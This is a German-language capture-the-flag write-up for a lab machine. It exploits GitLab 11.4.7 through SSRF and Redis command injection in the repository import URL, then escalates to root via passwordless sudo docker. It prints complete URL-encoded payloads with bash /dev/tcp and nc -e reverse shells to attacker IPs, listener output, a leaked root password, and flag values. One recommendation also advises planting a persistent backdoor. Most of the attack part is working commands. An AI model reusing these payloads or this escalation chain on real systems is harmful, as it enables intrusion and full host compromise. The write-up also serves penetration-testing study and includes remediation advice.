**Empfehlung (Admin):** **KRITISCH:** Die RCE-Schwachstelle ist nun ausgenutzt. Sofortige Behebung der GitLab-Instanz erforderlich. Überprüfen Sie interne Netzwerke auf Kompromittierung durch den `git` Benutzer.
Erfolgreiche Auslösung des RCE-Exploits mit angepasstem Payload:
Payload: git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0A%20multi%0A%20sadd%20resque:gitlab:queues%20system_hook_push%0A%20lpush%20resque:gitlab:queue:system_hook_push%20%22%7B%5C%22class%5C%22:%5C%22GitlabShellWorker%5C%22,%5C%22args%5C%22:%5B%5C%22class_eval%5C%22,%5C%22open('%7Cbash%20-c%20%5C'bash%20-i%20%3E&%20/dev/tcp/192.168.2.199/4444%200%3E&1%5C'').read%5C%22%5D,%5C%22retry%5C%22:3,%5C%22queue%5C%22:%5C%22system_hook_push%5C%22%7D%22%0A%20exec%0A%20exec payload_funktioniert

Bildbeschreibung: den markierten teil mit dem string ersetzen
Import in progress
git clone --bare git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0Amulti%0Asadd%20resque:gitlab:queues%20system_hook_push%0ALpush%20resque:gitlab:queue:system_hook_push%20%22%7B%5C%22class%5C%22:%5C%22GitlabShellWorker%5C%22,%5C%22args%5C%22:%5B%5C%22class_eval%20%5C%5C%5C%22%5C%5C%60open(%5C%5C'%7Ccat%20/flag%20%7C%20nc%20192.168.178.21%201234%20-e%20/bin/bash%5C%5C')%60.read%5C%5C%5C%22%5C%22%5D,%5C%22retry%5C%22:3,%5C%22queue%5C%22:%5C%22system_hook_push%5C%22,%5C%22jid%5C%22:%5C%22ad52abc5641173e217eb2e52%5C%22,%5C%22created_at%5C%22:1513714403.8122594,%5C%22enqueued_at%5C%22:1513714403.8129568%7D%22%0Aexec%0Aexec%0A/ssrf.git
Please wait while we import the repository for you. Refresh at will.
**Analyse:** Ich dokumentiere hier den dekodierten Payload, der über die GitLab-Importfunktion an die interne Redis-Instanz gesendet wird. Dies ist der Payload, der die Redis-Befehle und den eingebetteten Ruby/Bash-Code für die RCE enthält. Der Payload versucht unter anderem, `/flag` zu catten und an einen Netcat-Listener auf 192.168.178.21 Port 1234 zu senden. Der im `lpush` Befehl enthaltene JSON-String für den `GitlabShellWorker` ruft `class_eval` mit dem Kommando `open('|...')` auf.
**Bewertung:** Dies ist der Kern des funktionierenden RCE-Exploits. Die Struktur zeigt, wie die SSRF genutzt wird, um Redis-Befehle zu senden, und wie die Command Injection über die `GitlabShellWorker` Klasse erreicht wird. Die Pipe (`|`) in `open('|...')` führt den darin enthaltenen Befehl in einer Shell aus. Der spezifische Befehl `cat /flag | nc ...` ist der Payload, der ausgeführt werden soll. Die Tatsache, dass dies funktioniert, bestätigt die Schwachstelle in der Verarbeitung der Import-URL und der Job-Queue in dieser GitLab-Version.
**Empfehlung (Pentester):** Analysieren Sie die Struktur erfolgreicher Payloads, um ein tieferes Verständnis der Schwachstelle zu erlangen und Payloads für andere Ziele (z.B. Reverse Shell zu Ihrer IP/Port) zu erstellen.
**Empfehlung (Admin):** Deaktivieren Sie die Repository-Importfunktion aus externen URLs, wenn sie nicht unbedingt benötigt wird. Aktualisieren Sie GitLab.
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/ multi sadd resque:gitlab:queues system_hook_push lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval \\\"\\`open(\\'|cat /flag | nc 192.168.2.199 9001 -e /bin/bash\\')`.read\\\"\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}" exec exec /ssrf.git
**Analyse:** Ich dokumentiere einen weiteren dekodierten Payload, der an die interne Redis-Instanz gesendet wird.
**Bewertung:** Dieser Payload scheint eine leicht andere Struktur zu haben, insbesondere am Ende. Es zeigt, wie die Befehle `exec` mehrmals gesendet werden und wie der `/ssrf.git` Teil des originalen `git clone` Befehls am Ende der Injektion hängt. Dies sind Details der Redis-Protokollinjektion, die beim Debugging relevant waren.
**Empfehlung (Pentester):** Analysieren Sie die genauen Bytes, die an interne Dienste gesendet werden, wenn Sie SSRF mit Protokollinjektion ausnutzen. Tools wie Burp Suite Repeater oder Netcat können dabei helfen.
**Empfehlung (Admin):** Validieren Sie alle Eingaben streng, um zu verhindern, dass Metazeichen (wie Zeilenumbrüche, Anführungszeichen) injiziert werden, die die Kommunikation mit internen Diensten manipulieren könnten.
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/ multi sadd resque:gitlab:queues system_hook_push lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\" exec exec /ssrf.git
**Analyse:** Ich zeige hier den Netcat-Listener auf meiner Angreifer-Maschine (192.168.2.199) auf Port 9001, der die Reverse Shell empfängt. Die Ausgabe zeigt die eingehende Verbindung vom Zielsystem (192.168.2.217) und den Shell-Prompt `id uid=998(git) gid=998(git) groups=998(git)`. Dies ist die Shell, die durch die erfolgreiche Ausnutzung der Authentifizierten RCE in GitLab ausgelöst wurde. Die Shell läuft als Benutzer `git`.
**Bewertung:** **Fantastisch! Der erste Zugang ist erfolgreich!** Ich habe eine interaktive Shell auf dem Zielsystem als Benutzer `git` erhalten. Dies bestätigt, dass der GitLab RCE-Exploit funktioniert hat. Der Benutzer `git` ist ein Systembenutzer, der typischerweise mit GitLab-internen Prozessen verbunden ist. Dies ist die Basis für die weitere Privilege Escalation. Die Reverse Shell landete auf Port 9001, was vom Payload `nc 192.168.2.199 9001` im erfolgreichen Exploit herrührt.
**Empfehlung (Pentester):** Sammeln Sie sofort Systeminformationen als Benutzer `git`. Identifizieren Sie mögliche PE-Vektoren (z.B. `sudo -l`, SUID-Binaries, Cronjobs, unsichere Dateiberechtigungen), um Root-Zugriff zu erlangen.
**Empfehlung (Admin):** **Erster Zugriff als git-Benutzer:** Dies ist kritisch. Beheben Sie die GitLab RCE-Schwachstelle. Überprüfen Sie die Berechtigungen des `git`-Benutzers und schränken Sie diese auf das absolut notwendige Minimum ein.
Empfangen der Reverse Shell als Benutzer `git` auf meiner Maschine:
└─# nc -lvnp 9001
listening on [any] 9001 ... connect to [192.168.2.199] from (UNKNOWN) [192.168.2.217] 60406 id uid=998(git) gid=998(git) groups=998(git) git@gitlab:~/gitlab-rails/working$ stty rows 47 columns 94 git@gitlab:~/gitlab-rails/working$ ls -la total 8 drwx------ 2 git root 4096 Oct 9 2022 . drwxr-xr-x 9 git root 4096 Jun 8 12:10 ..
Proof of Concept: Authenticated Remote Code Execution via GitLab Import (CVE-2018-19585/CVE-2018-19571)
Dieser Bereich demonstriert die Ausnutzung einer Authentifizierten Remote Code Execution (RCE) Schwachstelle in GitLab Version 11.4.7 über die Repository-Importfunktion. Durch die Injektion eines bösartigen Payloads in die Import-URL konnte Arbitrary Code als Benutzer `git` auf dem Zielsystem ausgeführt werden, was zum ersten Zugang führte.
Kurzbeschreibung
Die GitLab-Instanz auf Port 5080 läuft in einer verwundbaren Version (11.4.7). Die Repository-Importfunktion ist anfällig für Server-Side Request Forgery (SSRF) kombiniert mit Redis Command Injection. Ein Angreifer mit gültigen Anmeldedaten kann eine speziell gestaltete `git://` URL verwenden, um eine Verbindung zur internen Redis-Instanz herzustellen und Befehle in die GitLab Job-Warteschlange (`resque:gitlab:queue:system_hook_push`) einzuschleusen. Ein Worker-Prozess (GitlabShellWorker) führt diese Jobs asynchron aus, was die Ausführung beliebigen Codes ermöglicht.
Voraussetzungen
- Zugriff auf das Netzwerk, in dem sich das Zielsystem befindet (192.168.2.0/24).
- Gültige Anmeldedaten für einen Benutzer mit Berechtigung zur Projekterstellung in der GitLab-Instanz (im Test: Root-Benutzer mit Passwort `M4st3rR00tS3cr3t0ne^1337^`, erhalten via Grafana LFI).
- Fähigkeit, angepasste HTTP POST-Anfragen an den Zielwebserver auf Port 5080 zu senden (z.B. über einen Browser mit Entwickler-Tools oder einen Proxy wie Burp Suite).
- Kenntnis der Angreifer-IP-Adresse (hier 192.168.2.199) und eines offenen Ports für einen Listener (hier 9001).
- Ein Listener (z.B. Netcat) auf der Angreifer-Maschine, der auf die eingehende Verbindung wartet.
Schritt-für-Schritt-Anleitung
**Schritt 1: Erlangung der GitLab-Anmeldedaten.** Über eine separate Local File Inclusion (LFI) Schwachstelle im Grafana-Dienst auf Port 3000 konnte die Datei `/srv/initial_root_password` ausgelesen werden, die das Root-Passwort für GitLab enthielt. (Details siehe Web Enumeration).
**Schritt 2: Authentifizierung bei GitLab.** Melden Sie sich mit den kompromittierten Root-Anmeldedaten (`root`:`M4st3rR00tS3cr3t0ne^1337^`) bei der GitLab-Instanz auf Port 5080 an.
**Schritt 3: Vorbereitung des Payloads.** Erstellen Sie einen bösartigen Payload, der die SSRF/Redis-Injection-Schwachstelle ausnutzt und einen Befehl zur Ausführung in die Job-Queue einschleust. Der Payload verwendet eine `git://` URL, die auf die interne Redis-Instanz (`127.0.0.1:6379`) zeigt, gefolgt von injizierten Redis-Befehlen (`multi`, `sadd`, `lpush`, `exec`). Der `lpush` Befehl enthält einen JSON-String für einen `GitlabShellWorker` Job, der die Ruby-Funktion `class_eval` aufruft, um einen Bash-Befehl über `open('|...').read` auszuführen. Der auszuführende Befehl ist eine Reverse Shell zu Ihrer Angreifer-Maschine (z.B. `bash -c 'bash -i >& /dev/tcp/192.168.2.199/9001 0>&1'`). Der gesamte `git://` URL-String muss URL-codiert werden und die Anführungszeichen innerhalb des JSON-Strings korrekt maskiert werden. Es muss auch eine Umgehung der alphanumerischen Hostname-Validierung integriert werden (z.B. `git://a@[0:0:0:0:0:ffff:127.0.0.1]:6379/...`).
Beispiel für den Kern des angepassten Payloads (URL-dekodiert): git://a@[0:0:0:0:0:ffff:127.0.0.1]:6379/ multi sadd resque:gitlab:queues system_hook_push lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|bash -c \\\'bash -i >& /dev/tcp/192.168.2.199/9001 0>&1\\\'\').read\"],\"retry\":3,\"queue\":\"system_hook_push\"}" exec exec
**Schritt 4: Vorbereitung des Listeners.** Auf der Angreifer-Maschine wird ein Netcat-Listener auf dem Port eingerichtet, der im Reverse Shell Payload angegeben ist (hier 9001).
└─# nc -lvnp 9001
listening on [any] 9001 ...
**Schritt 5: Auslösen des Exploits über die GitLab Importfunktion.** Navigieren Sie in GitLab als authentifizierter Root-Benutzer zur Funktion "New Project" -> "CI/CD project" -> "Import project" -> "Repo by URL". Fügen Sie den URL-codierten, bösartigen `git://` Payload in das Feld "Git repository URL" ein und erstellen Sie das Projekt. Alternativ fangen Sie den POST-Request mit Burp Suite ab und modifizieren den `project[import_url]` Parameter.
Erwartetes Ergebnis
Die GitLab UI sollte den Import initiieren ("Import in progress"). Asynchron wird ein Job in die Redis-Queue gestellt. Der `GitlabShellWorker` wird den Job abrufen, den Payload verarbeiten und die Reverse Shell ausführen. Der Netcat-Listener auf der Angreifer-Maschine sollte eine eingehende Verbindung vom Zielsystem auf Port 9001 registrieren und eine interaktive Shell, typischerweise als Benutzer `git`, bereitstellen.
Beweismittel
Der Output des Netcat-Listeners zeigt die eingehende Verbindung und den `git` Shell-Prompt, was den erfolgreichen ersten Zugang belegt.
└─# nc -lvnp 9001
listening on [any] 9001 ... connect to [192.168.2.199] from (UNKNOWN) [192.168.2.217] 60406 id uid=998(git) gid=998(git) groups=998(git) git@gitlab:~/gitlab-rails/working$ stty rows 47 columns 94 git@gitlab:~/gitlab-rails/working$ ls -la total 8 drwx------ 2 git root 4096 Oct 9 2022 . drwxr-xr-x 9 git root 4096 Jun 8 12:10 ..
Risikobewertung
**Kritisch:** Diese Authentifizierte RCE-Schwachstelle erlaubt Angreifern mit gültigen GitLab-Anmeldedaten die Ausführung beliebigen Codes auf dem GitLab-Server, was zur Kompromittierung des Containers und des zugrunde liegenden Hosts führen kann (abhängig von der Container-Isolation). In Kombination mit dem kompromittierten Root-Passwort ermöglicht dies die vollständige Übernahme.
Empfehlungen
- **Sofortige Aktualisierung:** Aktualisieren Sie die GitLab-Instanz umgehend auf eine nicht anfällige Version (>= 11.4.8 oder neuere Hauptversion).
- **Passwort-Rotation:** Ändern Sie das Root-Passwort in GitLab sofort. Überprüfen Sie, ob das gefundene Passwort für andere Dienste oder Benutzer verwendet wird und ändern Sie diese ebenfalls.
- **Sichere Konfiguration:** Stellen Sie sicher, dass interne Dienste (wie Redis) nicht über SSRF von externen Eingaben erreichbar sind.
- **Zugriffskontrolle:** Beschränken Sie die Repository-Importfunktion auf vertrauenswürdige Benutzer, falls sie nicht deaktiviert werden kann.
- **Monitoring:** Überwachen Sie GitLab-Logs auf Anzeichen von Exploit-Versuchen oder ungewöhnlicher Job-Ausführung.
Privilege Escalation
**Analyse:** Nachdem ich eine interaktive Shell als Benutzer `git` erhalten habe, beginne ich mit der Suche nach Wegen zur Privilege Escalation (PE) auf den Root-Benutzer des Hosts. Ich überprüfe die `sudo` Berechtigungen des aktuellen Benutzers mit `sudo -l`.
**Bewertung:** **Kritische Schwachstelle!** Die Ausgabe von `sudo -l` zeigt, dass der Benutzer `git` den Befehl `/usr/bin/docker` als Root ausführen darf (`(root)`) und das Wichtigste: `NOPASSWD:`. Das bedeutet, ich kann den `docker` Befehl mit Root-Privilegien auf dem Host-System ausführen, ohne ein Passwort eingeben zu müssen. Dies ist ein direkter und mächtiger Vektor zur vollständigen Kompromittierung des Hosts.
**Empfehlung (Pentester):** Nutzen Sie diese `sudo docker` Berechtigung umgehend, um Root-Zugriff auf das Host-Dateisystem zu erlangen.
**Empfehlung (Admin):** **EXTREM DRINGEND:** Entfernen Sie diese `NOPASSWD` Regel für den Benutzer `git` in der `sudoers`-Datei. Unprivilegierten Benutzern sollte niemals erlaubt sein, den `docker` Befehl mit Root-Rechten auszuführen, da dies triviale Container-Escapes ermöglicht. Prüfen Sie die `sudoers` Datei auf weitere unsichere Einträge.
git@gitlab:~/gitlab-rails/working$ sudo -l Matching Defaults entries for git on gitlab.cachalot.local: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin User git may run the following commands on gitlab.cachalot.local: (root) NOPASSWD: /usr/bin/docker
**Analyse:** Um meine Privilegien auf Root auf dem Host zu eskalieren, nutze ich die entdeckte `sudo docker` Berechtigung. Ich führe den Befehl `sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh` aus. Dieser Befehl verwendet `sudo`, um `docker run` als Root auszuführen. `docker run` startet einen temporären Container vom Image `alpine`. Der Parameter `-v /:/mnt` mountet das Root-Dateisystem (`/`) des Host-Systems in das Verzeichnis `/mnt` im Container. `chroot /mnt sh` wird dann *im Container* ausgeführt und wechselt die Root-Verzeichnis in das gemountete Host-Dateisystem, wodurch ich effektiv eine Shell mit Root-Berechtigungen auf dem Host-Dateisystem erhalte. Ich bestätige meine Identität mit dem Befehl `id`.
**Bewertung:** **Fantastisch! Der Root-Zugriff war erfolgreich, nun habe ich mein Ziel erreicht!** Der `id` Befehl in der neu erhaltenen Shell gibt `uid=0(root) gid=0(root) groups=0(root),...` zurück, was beweist, dass ich nun Root-Privilegien auf dem Host-System habe. Die unsichere `sudo docker` Konfiguration ermöglichte eine triviale Container-Escape-Methode.
**Empfehlung (Pentester):** Das `sudo docker` NOPASSWD Recht ist ein direkter Weg zu Root. Nutzen Sie die `docker run -v /:/mnt ...` Methode, um eine Root-Shell auf dem Host zu erlangen.
**Empfehlung (Admin):** **SOFORT MAßNAHMEN ERGREIFEN:** Korrigieren Sie die `sudoers`-Datei, um dem Benutzer `git` (oder jedem anderen unprivilegierten Benutzer) die Ausführung von `docker` mit Root-Rechten zu verbieten. Implementieren Sie strenge Zugriffskontrollen für den `docker` Daemon und die `docker.sock` Datei. Stellen Sie sicher, dass Benutzer `git` die geringstmöglichen Rechte besitzt.
Ausnutzung der `sudo docker` Berechtigung zur Erlangung einer Root-Shell auf dem Host:
git@gitlab:~/gitlab-rails/working$ sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh Unable to find image 'alpine:latest' locally latest: Pulling from library/alpine fe07684b16b8: Pull complete Digest: sha256:8a1f59ffb675680d47db6337b49d22281a139e9d709335b492be023728e11715 Status: Downloaded newer image for alpine:latest # id uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo) #
**Analyse:** Mit der Root-Shell auf dem Host-System suche ich nun nach den Flags. Ich navigiere in das Home-Verzeichnis des Root-Benutzers (`cd ~`) im Host-Dateisystem (das unter `/mnt` gemountet ist, wenn ich `chroot /mnt` bin), und suche nach der Root-Flag (typischerweise `root.txt` oder `proof.txt`). Ich finde `proof.txt` und lese dessen Inhalt. Ich liste auch das Home-Verzeichnis des Benutzers `cachalot` auf (`ls /home`) und lese den Inhalt seiner User-Flag (`local.txt`).
**Bewertung:** **Abschließender Erfolg!** Ich habe sowohl die Root-Flag (`proof.txt`) als auch die User-Flag (`local.txt` des Benutzers `cachalot`, der im `/home` Verzeichnis gefunden wurde) gefunden und ausgelesen. Dies dokumentiert die vollständige Kompromittierung der Maschine. Die Root-Flag befand sich direkt im Wurzelverzeichnis (`/`) des Host-Dateisystems, zugänglich nach dem `chroot /mnt`. Die User-Flag befand sich im Home-Verzeichnis des Standardbenutzers `cachalot`.
**Empfehlung (Pentester):** Sobald Root-Zugriff erlangt wurde, sichern Sie umgehend die Root-Flag. Suchen Sie auch nach der User-Flag, falls diese noch nicht gefunden wurde. Dokumentieren Sie die Pfade und Werte beider Flags. Etablieren Sie eine persistente Hintertür.
**Empfehlung (Admin):** Stellen Sie sicher, dass Root-Flags und User-Flags restriktive Berechtigungen haben und sich an sicheren Orten befinden. Überprüfen Sie das Dateisystem auf sensible Dateien, die ungeschützt liegen.
Sichern der Root- und User-Flags:
# cat proof.txt 02c157a9d76e85bfd03546fb74d0a384 # ls /home cachalot # cat /home/cachalot/local.txt 64675c29aaa3f6d9d9d7c68e53706aac5a